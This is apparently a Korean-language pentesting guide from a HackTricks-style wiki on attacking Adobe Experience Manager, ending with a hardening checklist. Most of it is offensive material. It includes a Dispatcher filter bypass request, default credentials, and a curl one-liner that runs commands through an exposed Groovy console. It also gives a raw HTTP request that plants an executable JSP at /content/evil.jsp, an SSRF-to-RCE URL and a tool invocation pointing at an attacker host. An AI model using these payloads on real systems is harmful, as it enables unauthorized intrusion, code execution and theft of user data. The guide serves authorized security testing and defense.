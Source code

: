 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, Adobe Experience Cloud의 일부)는 Apache Sling/Felix (OSGi) 및 Java Content Repository (JCR) 위에서 실행되는 기업 CMS입니다.
> 공격자의 관점에서 AEM 인스턴스는 종종 위험한 개발 엔드포인트, 약한 Dispatcher 규칙, 기본 자격 증명 및 매 분기마다 패치되는 긴 CVE 목록을 노출합니다.

아래 체크리스트는 실제 참여에서 계속 나타나는 **외부에서 접근 가능한 (unauth) 공격 표면**에 중점을 둡니다 (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
기타 빠른 지표:
* `/etc.clientlibs/` 정적 경로 존재 (JS/CSS 반환).
* `/libs/granite/core/content/login.html` “Adobe Experience Manager” 배너가 있는 로그인 페이지.
* `</script><!--/* CQ */-->` HTML 하단의 주석.

---

## 2. 높은 가치의 인증되지 않은 엔드포인트

경로 | 얻는 것 | 비고
---- | ------------- | -----
`/.json`, `/.1.json` | **DefaultGetServlet**를 통한 JCR 노드 | 종종 차단되지만, *Dispatcher 우회* (아래 참조)가 작동함.
`/bin/querybuilder.json?path=/` | QueryBuilder API | 페이지 트리, 내부 경로, 사용자 이름의 유출.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix 콘솔 | 기본적으로 403; 노출되고 자격 증명이 발견되면 ⇒ 번들 업로드 RCE.
`/crx/packmgr/index.jsp` | 패키지 관리자 | 인증된 콘텐츠 패키지 → JSP 페이로드 업로드 허용.
`/etc/groovyconsole/**` | AEM Groovy 콘솔 | 노출되면 → 임의의 Groovy / Java 실행.
`/libs/cq/AuditlogSearchServlet.json` | 감사 로그 | 정보 유출.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs 덤프 | XSS 벡터.

### Dispatcher 우회 트릭
대부분의 프로덕션 사이트는 *Dispatcher* (리버스 프록시) 뒤에 위치합니다. 그 필터 규칙은 허용된 정적 확장을 **세미콜론 또는 인코딩된 새 줄** 뒤에 추가하여 우회할 수 있습니다:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
단일 요청은 종종 이메일 주소가 포함된 사용자 프로필 노드를 공개합니다. P-T Partners는 이 취약점에 대한 좋은 지침을 발표했습니다. 【】

---

## 3. 일반적인 잘못된 구성 (2025년에도 여전히 존재)

1. **익명 POST 서블릿** – `POST /.json`에 `:operation=import`를 사용하면 새로운 JCR 노드를 생성할 수 있습니다. Dispatcher에서 `*.json` POST를 차단하면 해결됩니다. 【】
2. **모두가 읽을 수 있는 사용자 프로필** – 기본 ACL이 `/home/users/**/profile/*`에 대해 모든 사용자에게 `jcr:read`를 부여합니다.
3. **기본 자격 증명** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** 활성화 ⇒ `?debug=layout`을 통한 반사형 XSS (CVE-2016-7882, 여전히 레거시 6.4 설치에서 발견됨).
5. **노출된 Groovy 콘솔** – Groovy 스크립트를 전송하여 원격 코드 실행:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. 최근 취약점 (서비스 팩 주기)

분기 | CVE | 영향 받는 버전 | 영향
------- | --- | -------- | ------
2024년 12월 | **CVE-2024-43711** | 6.5.21 및 이전 | 부적절한 입력 검증 → **임의 코드 실행** (저권한 인증 필요). 【】
2024년 12월 | CVE-2024-43724/26 | 6.5.21 및 이전 | Move Page Wizard에서 DOM / 저장된 XSS. 【】
2023년 12월 | CVE-2023-48452/68 | ≤ 6.5.18 | 조작된 URL을 통한 DOM 기반 XSS. 【】
2022년 12월 | CVE-2022-30683 | ≤ 6.5.13 | 암호 설계 결함 → 비밀 복호화 (저권한 자격 증명 필요). 【】

항상 고객의 서비스 팩에 맞는 *APSB* 게시판을 확인하고 최신 **6.5.22** 또는 *Cloud Service 2024.11*을 요청하세요.

---

## 5. 악용 스니펫

### 5.1 Dispatcher 우회 + JSP 업로드를 통한 RCE
익명 쓰기가 가능하다면:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
이제 `/content/evil.jsp`를 요청하세요 – JSP는 AEM 프로세스 사용자로 실행됩니다.

### 5.2 SSRF에서 RCE로 (역사적 < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
**aem-hacker**의 `aem_ssrf2rce.py`는 전체 체인을 자동화합니다. 【】

---

## 6. 도구

* **aem-hacker** – 스위스 아미 Enumeration 스크립트, 디스패처 우회, SSRF 탐지, 기본 자격 증명 확인 등을 지원합니다.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – 숨겨진 구성 요소를 발견하기 위해 `/_jcr_content.(json|html)`를 재귀적으로 요청합니다.
* **osgi-infect** – 자격 증명이 있는 경우 `/system/console/bundles`를 통해 악성 OSGi 번들을 업로드합니다.

---

## 7. 강화 체크리스트 (보고서 권장 사항용)

1. 인스턴스를 **최신 누적 서비스 팩**(2025년 7월 기준: 6.5.22)으로 유지합니다.
2. 기본 계정을 제거/회전하고 SSO/SAML을 시행합니다.
3. **디스패처 필터**를 강화합니다 – 익명 사용자에 대해 `;`, 인코딩된 개행 및 `*.json` 또는 `*.querybuilder.json`을 거부합니다.
4. IP 허용 목록으로 콘솔(`/system/console`, `/crx/*`, `/etc/groovyconsole`)을 비활성화하거나 보호합니다.
5. Adobe에서 제공하는 *익명 권한 강화* 패키지를 적용합니다.

## 참고 문헌

* Adobe 보안 게시판 APSB24-69 – “Adobe Experience Manager에 대한 보안 업데이트(2024년 12월)”.
* 0ang3el – aem-hacker 도구 (GitHub).
{{#include ../../banners/hacktricks-training.md}}
